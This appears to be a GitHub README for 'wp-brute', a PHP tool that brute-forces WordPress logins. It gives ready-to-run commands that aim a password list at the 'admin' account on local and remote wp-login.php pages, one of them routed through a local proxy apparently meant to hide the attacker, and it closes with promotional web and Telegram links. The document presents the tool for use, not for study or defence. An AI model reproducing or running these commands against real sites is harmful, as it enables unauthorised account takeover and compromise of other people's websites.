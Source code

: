 # wp-brute
Wordpress brute forcer

Here's a couple of examples

A local session with no proxy

php wp-brute.php http://localhost/blog/wp-login.php admin lib/passlist.txt
A remote session through a proxy.

php wp-brute.php http://site.com/wp-login.php admin lib/passlist.txt /proxy 127.0.0.1:9050

WEB :: https://www.berbagitrik.my.id

TELEGRAM :: https://t.me/nocheatnogamee
